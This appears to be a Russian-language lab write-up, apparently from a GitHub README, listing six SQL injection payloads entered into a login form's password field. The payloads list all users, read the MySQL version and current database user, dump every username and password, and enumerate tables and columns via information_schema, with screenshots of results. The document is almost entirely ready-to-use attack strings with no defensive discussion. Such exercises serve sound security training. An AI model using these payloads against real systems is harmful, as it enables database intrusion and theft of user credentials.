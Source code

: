 1. Список всех пользователей.
Инъекция: ' OR 1=1 #
![image](https://github.com/user-attachments/assets/be500567-e423-4c57-a012-9e362812fae5)
2. Узнать версию MySQL
Инъекция: ' UNION SELECT @@version, @@version # (ввод в поле пароля, user - james_kirk)
![image](https://github.com/user-attachments/assets/bc405aac-a85a-4cd3-8778-c3b4afcace6e)
3. Узнать пароли всех пользователей
Инъекция: ' UNION SELECT username,password FROM users;
![image](https://github.com/user-attachments/assets/523a0a88-3c0a-4652-b164-69b7ee49dc81)
4. Определить текущего пользователя базы данных
Инъекция: ' UNION SELECT CURRENT_USER(), CURRENT_USER() # (ввод в поле пароля, user - james_kirk)
![image](https://github.com/user-attachments/assets/2efacd00-cf7a-4dff-a4f6-a5287892a37c)
5. Извлечь имена таблиц из схемы базы данных
Инъекция: ' UNION SELECT table_name, table_name FROM information_schema.tables # (ввод в поле пароля, user - james_kirk)
![image](https://github.com/user-attachments/assets/533bd8a5-0105-4ad5-915e-7025aa41ce72)
![image](https://github.com/user-attachments/assets/38ba41ae-c7ba-4d29-a056-366be66cab1f)
![image](https://github.com/user-attachments/assets/105942ec-4130-4701-9c66-9cd26fbb830c)
![image](https://github.com/user-attachments/assets/8868d9d0-0a3b-438a-a764-d198915ae0e2)
![image](https://github.com/user-attachments/assets/9c44a0a9-7192-4999-9340-e975ec2390d2)
6. Получить список столбцов users таблицы
Инъекция: ' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users' # (ввод в поле пароля, user - james_kirk)
![image](https://github.com/user-attachments/assets/c32f533a-1d87-4bd1-9c6b-e14e20d861ed)


